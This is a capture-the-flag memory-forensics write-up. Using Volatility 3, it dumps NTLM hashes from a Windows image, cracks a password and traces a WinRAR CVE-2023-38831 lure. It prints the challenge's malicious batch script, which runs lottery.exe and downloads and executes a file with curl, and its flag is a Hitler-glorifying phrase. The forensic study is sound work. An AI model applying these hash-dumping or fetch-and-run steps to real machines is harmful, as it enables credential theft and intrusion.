

# Access Granted

**Flag:** `BITSCTF{adolfhitlerrulesallthepeople}`

We're told to extract a password from the memdump first. I first tried to use vol2 on the dump, but it failed and I was forced to use vol3.

I looked around for how to dump passwords in vol3 and found out we use the `windows.hashdump` command. Using it, we successfully get the hashes of MogamBro.

```
~/Downloads $ python3 volatility3/vol.py -f ~/Projects/Cryptonite/T*/F*\ -\ June\ */C*/F*/m*/memdump.mem windows.hashdump
Volatility 3 Framework 2.7.1
Progress:  100.00               PDB scanning finished
User    rid     lmhash  nthash

Administrator   500     aad3b435b51404eeaad3b435b51404ee        8a320467c7c22e321c3173e757194bb3
Guest   501     aad3b435b51404eeaad3b435b51404ee        31d6cfe0d16ae931b73c59d7e0c089c0
DefaultAccount  503     aad3b435b51404eeaad3b435b51404ee        31d6cfe0d16ae931b73c59d7e0c089c0
WDAGUtilityAccount      504     aad3b435b51404eeaad3b435b51404ee        74d0db3c3f38778476a44ff9ce0aefe2
MogamBro        1000    aad3b435b51404eeaad3b435b51404ee        8a320467c7c22e321c3173e757194bb3
```

We have the nthash and the lmhash. Dumping them both into a hash decryption website like CrackStation, we get the password as `adolfhitlerrulesallthepeople`.



# 0.69 Day

**Flag:** `BITSCTF{CVE-2023-38831}`

We list all the processes MogamBro is running through `pstree`. Filtering out garbage processes like `svchost.exe` we find the system running apps of interest like `chrome.exe`, `WinRAR.exe` and `SkypeApp.exe`

```
~/Downloads $ python3 revfor/volatility3/vol.py -f ~/Projects/Cryptonite/T*/F*\ -\ June\ */C*/F*/m*/memdump.mem windows.pstree > tree
```

```
Volatility 3 Framework 2.7.1

PID	PPID	ImageFileName	Offset(V)	Threads	Handles	SessionId	Wow64	CreateTime	ExitTime	Audit	Cmd	Path

4	0	System	0xb606bf49a040	143	-	N/A	False	2024-02-15 16:09:58.000000 	N/A	-	-	-
* 356	4	smss.exe	0xb606c319d040	2	-	N/A	False	2024-02-15 16:09:58.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\smss.exe	-	-
* 2012	4	MemCompression	0xb606c6440080	58	-	N/A	False	2024-02-15 16:10:03.000000 	N/A	MemCompression	-	-
* 108	4	Registry	0xb606bf5b5040	4	-	N/A	False	2024-02-15 16:09:57.000000 	N/A	Registry	-	-
456	444	csrss.exe	0xb606c507e0c0	11	-	0	False	2024-02-15 16:10:02.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\csrss.exe	%SystemRoot%\system32\csrss.exe ObjectDirectory=\Windows SharedSection=1024,20480,768 Windows=On SubSystemType=Windows ServerDll=basesrv,1 ServerDll=winsrv:UserServerDllInitialization,3 ServerDll=sxssrv,4 ProfileControl=Off MaxRequestThreads=16	C:\Windows\system32\csrss.exe
532	444	wininit.exe	0xb606c583a080	1	-	0	False	2024-02-15 16:10:02.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\wininit.exe	wininit.exe	C:\Windows\system32\wininit.exe
* 696	532	lsass.exe	0xb606c5881080	13	-	0	False	2024-02-15 16:10:02.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\lsass.exe	C:\Windows\system32\lsass.exe	C:\Windows\system32\lsass.exe
* 840	532	fontdrvhost.ex	0xb606c605a180	5	-	0	False	2024-02-15 16:10:03.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\fontdrvhost.exe	-	-
* 676	532	services.exe	0xb606c583d140	8	-	0	False	2024-02-15 16:10:02.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\services.exe	C:\Windows\system32\services.exe	C:\Windows\system32\services.exe
** 1792	676	VBoxService.ex	0xb606c6487280	11	-	0	False	2024-02-15 16:10:03.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\VBoxService.exe	C:\Windows\System32\VBoxService.exe	C:\Windows\System32\VBoxService.exe
** 6924	676	SecurityHealth	0xb606c7768280	9	-	0	False	2024-02-15 16:10:20.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\SecurityHealthService.exe	C:\Windows\system32\SecurityHealthService.exe	C:\Windows\system32\SecurityHealthService.exe
*** 8872	2320	audiodg.exe	0xb606c7b1c080	7	-	0	False	2024-02-15 16:36:41.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\audiodg.exe	C:\Windows\system32\AUDIODG.EXE 0x528	C:\Windows\system32\AUDIODG.EXE
** 548	676	SgrmBroker.exe	0xb606c84de080	8	-	0	False	2024-02-15 16:12:04.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\SgrmBroker.exe	C:\Windows\system32\SgrmBroker.exe	C:\Windows\system32\SgrmBroker.exe
*** 2340	816	HxTsr.exe	0xb606c7b90080	13	-	1	False	2024-02-15 16:31:02.000000 	N/A	\Device\HarddiskVolume1\Program Files\WindowsApps\microsoft.windowscommunicationsapps_16005.11629.20316.0_x64__8wekyb3d8bbwe\HxTsr.exe	"C:\Program Files\WindowsApps\microsoft.windowscommunicationsapps_16005.11629.20316.0_x64__8wekyb3d8bbwe\HxTsr.exe" -ServerName:Hx.IPC.Server	C:\Program Files\WindowsApps\microsoft.windowscommunicationsapps_16005.11629.20316.0_x64__8wekyb3d8bbwe\HxTsr.exe
*** 4400	4316	ctfmon.exe	0xb606c6ee4280	9	-	1	False	2024-02-15 16:10:08.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\ctfmon.exe	"ctfmon.exe"	C:\Windows\system32\ctfmon.exe
** 2664	676	spoolsv.exe	0xb606c6719240	7	-	0	False	2024-02-15 16:10:04.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\spoolsv.exe	C:\Windows\System32\spoolsv.exe	C:\Windows\System32\spoolsv.exe
** 2928	676	MsMpEng.exe	0xb606c67e2280	8	-	0	False	2024-02-15 16:10:04.000000 	N/A	\Device\HarddiskVolume1\Program Files\Windows Defender\MsMpEng.exe	"C:\Program Files\Windows Defender\MsMpEng.exe"	C:\Program Files\Windows Defender\MsMpEng.exe
540	524	csrss.exe	0xb606c583f140	14	-	1	False	2024-02-15 16:10:02.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\csrss.exe	%SystemRoot%\system32\csrss.exe ObjectDirectory=\Windows SharedSection=1024,20480,768 Windows=On SubSystemType=Windows ServerDll=basesrv,1 ServerDll=winsrv:UserServerDllInitialization,3 ServerDll=sxssrv,4 ProfileControl=Off MaxRequestThreads=16	C:\Windows\system32\csrss.exe
604	524	winlogon.exe	0xb606c585f080	5	-	1	False	2024-02-15 16:10:02.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\winlogon.exe	winlogon.exe	C:\Windows\system32\winlogon.exe
* 848	604	fontdrvhost.ex	0xb606c6058180	5	-	1	False	2024-02-15 16:10:03.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\fontdrvhost.exe	-	-
* 4268	604	userinit.exe	0xb606c6e70080	0	-	1	False	2024-02-15 16:10:07.000000 	2024-02-15 16:10:27.000000 	\Device\HarddiskVolume1\Windows\System32\userinit.exe	-	-
** 4352	4268	explorer.exe	0xb606c6e76340	83	-	1	False	2024-02-15 16:10:07.000000 	N/A	\Device\HarddiskVolume1\Windows\explorer.exe	C:\Windows\Explorer.EXE	C:\Windows\Explorer.EXE
*** 7044	4352	VBoxTray.exe	0xb606c7642080	11	-	1	False	2024-02-15 16:10:21.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\VBoxTray.exe	"C:\Windows\System32\VBoxTray.exe" 	C:\Windows\System32\VBoxTray.exe
*** 6884	4352	SecurityHealth	0xb606c727a080	1	-	1	False	2024-02-15 16:10:20.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\SecurityHealthSystray.exe	"C:\Windows\System32\SecurityHealthSystray.exe" 	C:\Windows\System32\SecurityHealthSystray.exe
*** 7120	4352	OneDrive.exe	0xb606c778e240	26	-	1	True	2024-02-15 16:10:21.000000 	N/A	\Device\HarddiskVolume1\Users\MogamBro\AppData\Local\Microsoft\OneDrive\OneDrive.exe	"C:\Users\MogamBro\AppData\Local\Microsoft\OneDrive\OneDrive.exe" /background	C:\Users\MogamBro\AppData\Local\Microsoft\OneDrive\OneDrive.exe
*** 9840	4352	FTK Imager.exe	0xb606c828f080	23	-	1	False	2024-02-15 16:36:43.000000 	N/A	\Device\HarddiskVolume1\Program Files\AccessData\FTK Imager\FTK Imager.exe	"C:\Program Files\AccessData\FTK Imager\FTK Imager.exe" 	C:\Program Files\AccessData\FTK Imager\FTK Imager.exe
*** 8436	4352	WinRAR.exe	0xb606c7a17080	5	-	1	False	2024-02-15 16:33:04.000000 	N/A	\Device\HarddiskVolume1\Program Files\WinRAR\WinRAR.exe	"C:\Program Files\WinRAR\WinRAR.exe" "C:\Users\MogamBro\Downloads\Follow-these-instructions.zip"	C:\Program Files\WinRAR\WinRAR.exe
* 404	604	dwm.exe	0xb606c616c080	19	-	1	False	2024-02-15 16:10:03.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\dwm.exe	"dwm.exe"	C:\Windows\system32\dwm.exe
4864	4900	GoogleCrashHan	0xb606c830d080	3	-	0	True	2024-02-15 16:12:06.000000 	N/A	\Device\HarddiskVolume1\Program Files (x86)\Google\Update\1.3.36.372\GoogleCrashHandler.exe	-	-
7632	4900	GoogleCrashHan	0xb606c85e4080	3	-	0	False	2024-02-15 16:12:06.000000 	N/A	\Device\HarddiskVolume1\Program Files (x86)\Google\Update\1.3.36.372\GoogleCrashHandler64.exe	-	-
7580	7896	chrome.exe	0xb606bfe05080	0	-	1	False	2024-02-15 16:12:07.000000 	2024-02-15 16:12:58.000000 	\Device\HarddiskVolume1\Program Files\Google\Chrome\Application\chrome.exe	-	-
6624	8812	msedge.exe	0xb606c776f300	0	-	1	False	2024-02-15 16:12:32.000000 	2024-02-15 16:12:32.000000 	\Device\HarddiskVolume1\Program Files (x86)\Microsoft\Edge\Application\msedge.exe	-	-
1468	7352	cmd.exe	0xb606c7de1080	1	-	1	False	2024-02-15 16:33:09.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\cmd.exe	C:\Windows\system32\cmd.exe  /K "C:\Users\MogamBro\AppData\Local\Temp\Rar$DIa8436.27164\steps.pdf .bat"   	C:\Windows\system32\cmd.exe
* 3724	1468	notepad.exe	0xb606c70a6080	1	-	1	False	2024-02-15 16:33:10.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\notepad.exe	notepad.exe  secret.png.enc 	C:\Windows\system32\notepad.exe
* 8652	1468	chrome.exe	0xb606c8115080	0	-	1	False	2024-02-15 16:33:10.000000 	2024-02-15 16:33:50.000000 	\Device\HarddiskVolume1\Program Files\Google\Chrome\Application\chrome.exe	-	-
* 780	1468	conhost.exe	0xb606c8905080	3	-	1	False	2024-02-15 16:33:09.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\conhost.exe	\??\C:\Windows\system32\conhost.exe 0x4	C:\Windows\system32\conhost.exe
```

Opening the `.ad1` file with FTKImager and exporting the data in its Downloads folder, we can see what looks to be a malicious batch script running.

```
if not DEFINED IS_MINIMIZED set IS_MINIMIZED=1 && start "" /min "%~dpnx0" %* && exit
@echo off
lottery.exe & start chrome -incognito https://pastebin.com/mPvzn0AD & notepad.exe secret.png.enc & curl google.com -o steps.pdf & steps.pdf
exit
```

I also run the `cmdline` command on it.

```
~/Downloads/revfor $ python3 volatility3/vol.py -f ~/Projects/Cryptonite/T*/F*\ -\ June\ */C*/F*/m*/memdump.mem windows.cmdline.CmdLine > CMD
.
.
.
8436	WinRAR.exe	"C:\Program Files\WinRAR\WinRAR.exe" "C:\Users\MogamBro\Downloads\Follow-these-instructions.zip"
1468	cmd.exe	C:\Windows\system32\cmd.exe  /K "C:\Users\MogamBro\AppData\Local\Temp\Rar$DIa8436.27164\steps.pdf .bat"
780	conhost.exe	\??\C:\Windows\system32\conhost.exe 0x4
8652	chrome.exe	Required memory at 0xb149572020 is not valid (process exited?)
3724	notepad.exe	notepad.exe  secret.png.enc
```

At this point I think the vulnerable program is either WinRAR or Notepad. I extracted both their files using `dumpfile` to look at their binaries.

**Notepad**

```
~/Downloads/revfor $ python3 volatility3/vol.py -f ~/Projects/Cryptonite/T*/F*\ -\ June\ */C*/F*/m*/memdump.mem dumpfile --pid 3724 --virtaddr 0xb606ca106830
```

**WinRAR**

```
~/Downloads/revfor $ python3 volatility3/vol.py -f ~/Projects/Cryptonite/T*/F*\ -\ June\ */C*/F*/m*/memdump.mem dumpfile --pid 8436 --virtaddr 0xb606c737e580
```

Unfortunately, I tried running them both using `wine` and neither worked. So I now had to dig for relevant CVE's myelf.

I first started searching WinRAR CVE's to find a relevant vulnerability. Searching for exploits related to zip files and batch scripts, I was lead to [this blog post](https://www.mcafee.com/blogs/other-blogs/mcafee-labs/exploring-winrar-vulnerability-cve-2023-38831/) by McAfee. It matched our threat model exactly, such as the file names of the pdf and zip being the same. Hence, we get the required CVE as `CVE-2023-38831`, and thus the flag.

